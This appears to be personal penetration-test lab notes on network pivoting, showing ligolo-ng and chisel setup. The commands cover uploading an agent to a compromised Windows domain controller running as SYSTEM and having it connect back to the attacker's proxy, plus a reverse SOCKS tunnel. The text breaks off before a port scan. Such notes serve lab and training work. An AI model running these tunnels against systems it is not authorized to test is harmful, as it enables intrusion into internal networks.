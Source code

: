 ### **ligogo**

Initial Setup on my box

```
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up

#Desired subnet to access
sudo ip route add 172.16.2.0/24 dev ligolo
```

Build the proxy and agent

```
$ go build -o agent cmd/agent/main.go
$ go build -o proxy cmd/proxy/main.go
# Build for Windows
$ GOOS=windows go build -o agent.exe cmd/agent/main.go
$ GOOS=windows go build -o proxy.exe cmd/proxy/main.go
```

Run proxy on my box

```
┌──(gl0wy㉿kali)-[~/Desktop/Tools/ligolo-ng]
└─$ sudo ./proxy -selfcert                                                                                                                              1 ⨯
WARN[0000] Using automatically generated self-signed certificates (Not recommended)
INFO[0000] Listening on 0.0.0.0:11601
```

Upload and run agent on victim

```
C:\\Windows\\system32>agent.exe -connect 10.10.16.5:11601 -ignore-cert
```

Create session and start

```
ligolo-ng » INFO[0071] Agent joined.                                 name="NT AUTHORITY\\\\SYSTEM@DANTE-DC01" remote="10.10.110.3:62081"
ligolo-ng » session
[Agent : NT AUTHORITY\\SYSTEM@DANTE-DC01] » start
INFO[0163] Starting tunnel to NT AUTHORITY\\SYSTEM@DANTE-DC01
```

### **Socks proxy**

```
# Run on your machine, will open port 443
chisel server -p 443 --reverse --socks5
# Run on tunneling server, will open 1080 on your local machine once connected
chisel client 192.168.119.248:443 R:socks
```

And then, run a port scan using naabu:
